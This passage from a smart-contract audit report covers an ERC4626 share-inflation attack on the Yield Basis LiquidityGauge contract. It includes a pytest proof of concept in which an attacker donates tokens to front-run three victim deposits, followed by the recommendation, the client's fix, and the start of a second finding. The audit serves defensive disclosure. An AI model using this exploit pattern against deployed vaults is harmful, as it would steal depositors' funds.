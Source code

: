 ```vyper
# 0 — _DECIMALS_OFFSET
erc4626.__init__("YB Gauge: ..", "g(..)", lp_token, 0, "Just say no", "to EIP712")
```
https://github.com/yield-basis/yb-core/blob/3352c612fc33e48f1a106da41f63810f31bc38be/contracts/dao/LiquidityGauge.vy#L108

For 1 virtual share, an attacker can still perform a successful front-running attack on a victim, but to make a profit, they would need to intercept three victim deposits that do not exceed their own. Otherwise, the attack is more of a griefing — victims will be issued 0 shares for amounts less than the vault's balance.

Test example:
- append to `tests/dao/test_gauge.py`
- run with `poetry run pytest tests/dao/test_gauge.py::test_inflation_attack -v -s`

```python
def test_inflation_attack(mock_lp, gauges, gc, yb, accounts, vote_for_gauges):
    hacker = accounts[0]
    victims = [accounts[1], accounts[2], accounts[3]]
    gauge = gauges[0]
    victimAmount = 10_000 * 10**18
    hackerAmout = victimAmount * 2

    hacker_balance_before = mock_lp.balanceOf(hacker)
    with boa.env.prank(hacker):
        gauge.mint(1, hacker)
        mock_lp.transfer(gauge.address, hackerAmout)
    
    for v in victims:
        with boa.env.prank(v):
            gauge.deposit(victimAmount, v)

    with boa.env.prank(hacker):
        gauge.redeem(gauge.balanceOf(hacker), hacker, hacker)

    print("Profit for hacker", mock_lp.balanceOf(hacker) - hacker_balance_before)
```


##### Recommendation

We recommend setting decimals offset higher, for example 3 (i.e., 1000 virtual shares).

> **Client's Commentary:**
> **Client:** Let me try something different here. Instead, let's allow to have totalSupply of the gauge being either 0 or >= MIN_SHARES. This way, gauge forces the seed
> **MixBytes:** After the fix: the hacker cannot use an inflation attack because the vault is restricted to a minimum of 1e12 shares.

---

#### 2. Incorrect Merging of Lock Ends

##### Status
Fixed in https://github.com/yield-basis/yb-core/commit/4378752a0bb17169648a8711598a18372a93de7f
##### Description
